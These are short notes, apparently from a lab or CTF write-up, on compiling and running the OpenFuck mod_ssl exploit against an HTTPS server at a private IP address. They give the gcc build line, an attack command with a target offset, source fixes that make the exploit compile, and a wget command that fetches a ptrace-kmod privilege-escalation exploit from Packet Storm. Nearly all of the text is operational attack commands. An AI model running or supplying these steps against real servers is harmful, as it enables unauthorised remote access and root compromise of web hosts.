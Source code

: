 Compile command:

gcc -o OpenFuck ./openfuck.c -lcrypto

Use command:

./OpenFuck 0x73 192.168.15.222 443


Original Exploit Location:



Changes from original:

"#include <openssl/rc4.h>"
"#include <openssl/md5.h>"

Add "const" to line 961:

const unsigned char *p, *end;

This the following wget command fails, but non-root (apache) access is still achievable

wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c



